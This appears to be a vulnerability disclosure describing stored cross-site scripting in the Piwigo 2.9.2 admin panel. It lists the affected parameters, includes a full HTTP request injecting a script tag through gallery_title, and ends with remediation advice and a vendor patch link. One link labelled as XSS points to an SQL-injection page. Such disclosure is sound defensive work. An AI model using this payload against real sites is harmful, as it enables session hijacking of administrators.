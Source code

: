 -----
layout: none
-----
## Stored XSS Vulnerabilities in Piwigo 2.9.2

<u>**Affected Version : <=2.9.2**</u>

<u>**Description:**</u> 

It was identified that admin panel of Piwigo application is vulnerable to multiple [Persistent Cross Site Scripting](https://www.owasp.org/index.php/SQL_Injection) vulnerabilities. An attacker can exploit these vulnerabilities to hijack client's browser along with the data stored in it.  

<u>**Vulnerable Instances**</u>:

- /admin.php?page=batch_manager&mode=unit, **[POST] tags-*[]**
- /admin.php?page=configuration&section=main, **[POST] gallery_title**



**<u>Proof of Concept:</u>**

Configuration *component*

**REQUEST**

```markdown
POST /piwigo-2.9.2/piwigo/admin.php?page=configuration&section=main HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/piwigo-2.9.2/piwigo/admin.php?page=configuration
Content-Type: application/x-www-form-urlencoded
Content-Length: 310
Cookie: pwg_id=ljmb7f4h6rsrdkv9bgotsl9ja3;
Connection: close
Upgrade-Insecure-Requests: 1

gallery_title=`</title><script>alert(document.domain)</script>`&page_banner=test+banner&order_by%5B%5D=date_available+DESC&order_by%5B%5D=file+ASC&order_by%5B%5D=id+ASC&rate_anonymous=on&allow_user_registration=on&allow_user_customization=on&week_starts_on=monday&history_guest=on&log=on&mail_theme=clear&submit=
```

**RESPONSE**

![stored xss](/assets/images/piwigo2.9.2/2.png)

<u>**Remediation:**</u>

As the application make use of MVC architecture, it is recommended to implement a middleware or centralized controller that uses **[Context Specific Filtering](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet])** which sanitizes user input before printing it to user. 

**<u>Vendor Patches:</u>**

The patch released by vendor for this issue can be found [here](https://github.com/Piwigo/Piwigo/commit/c3b4c6f7f0ddeaea492080fb8211d7b4cfedaf6f) 
